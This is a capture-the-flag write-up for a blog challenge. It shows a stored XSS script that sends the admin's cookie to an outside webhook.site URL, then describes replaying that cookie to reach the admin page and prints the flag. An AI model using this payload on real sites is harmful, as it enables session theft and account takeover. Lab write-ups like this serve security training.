

# Star Wars
> If you love Star Wars as much as I do you need to check out this blog!

## About the Challenge
We got another website to pentest, and there are some functionality that we can test such as register, login, giving a comment in post.




## How to Solve?
When I attempt to post a comment, my comment is reviewed by the admin first. So, I assume that this website is vulnerable to XSS, and we need to steal the admin's cookie. To steal the admin cookie, im using this simple XSS payload

```
<script>var i=new Image(); i.src="https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie="+btoa(document.cookie);</script>
```


Submit the payload and then wait until you got a pingback. And voilà, you got an admin cookie


Decode the cookie using `base64` and then replace your cookie with the admin cookie. After that, go to `/admin` endpoint to obtain the flag


```
flag{a538c88890d45a382e44dfd00296a99b}
```